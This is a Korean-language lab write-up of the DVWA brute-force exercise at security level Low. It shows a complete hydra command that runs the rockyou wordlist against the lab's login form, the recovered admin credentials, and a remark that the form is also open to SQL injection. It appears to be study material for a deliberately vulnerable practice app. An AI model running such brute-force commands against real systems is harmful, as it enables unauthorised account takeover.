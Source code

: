 
# Brute Force(무차별 대입 공격)

## Security Level : Low

### 풀이

![image](https://github.com/user-attachments/assets/bc2e4c48-49a5-432c-b7dd-c2cae3755d13)

좌측 하단에 username: admin이라고 되어 있다. 그리고 로그인을 실패했을 때 "Username and/or password incorrect." 라는 메시지가 출력된다.

이를 이용해서 hydra를 사용해서 비밀번호를 찾아볼 생각이다.

<img src=https://github.com/user-attachments/assets/fbfb341c-6c73-4582-8e17-1693c05f1edd width 500>

hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.110 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=j0hhk5h9tv98ldtfn6aajf83h6; security=low:F=Username and/or password incorrect."

username: admin  
password : password

![image](https://github.com/user-attachments/assets/9e8950f1-766e-4c92-94c6-d2b8330dc09d)

로그인 성공!

### 페이지 소스

![image](https://github.com/user-attachments/assets/48c0354e-f332-4130-8149-19f5548f546f)

필터 없이 입력값을 받아서 sql injection 공격도 가능

## Security Level : Medium
